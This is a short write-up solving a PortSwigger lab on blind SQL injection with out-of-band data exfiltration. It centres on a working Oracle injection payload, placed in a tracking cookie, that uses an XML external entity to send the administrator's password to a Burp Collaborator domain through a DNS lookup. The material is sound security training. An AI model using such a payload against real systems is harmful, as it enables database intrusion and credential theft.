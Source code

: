 # Lab: Blind SQL injection with out-of-band data exfiltration

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration>  
Difficulty: PRACTITIONER  
Burp Suite Professional is required to solve this lab!

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result of injection: No visible difference in page, no timing difference
- DB may perform DNS queries
- database contains a `users` table with columns `username` and `password`
- Goal:
  - Exfiltrate the administrator password
  - Login as administrator user

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=BR3agStQwzeln8Z6; session=cQ7k63wrOmVgTV4P62F5zEYadIbtX9e9`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

The first step is identical to the [previous lab](../Blind_SQL_injection_with_out-of-band_interaction/README.md) so I do not repeat it here.

After confirming this Lab uses an Oracle database as well, I simply insert the password into as subdomain into the DNS query:

`'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.3txa3t7g4os2eh9558lzp3fqbhh75w.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'`

The Burp collaborator client then provides me with the administrator password:

![collaborator hit](img/collaborator_result.png)

![success](img/success.png)
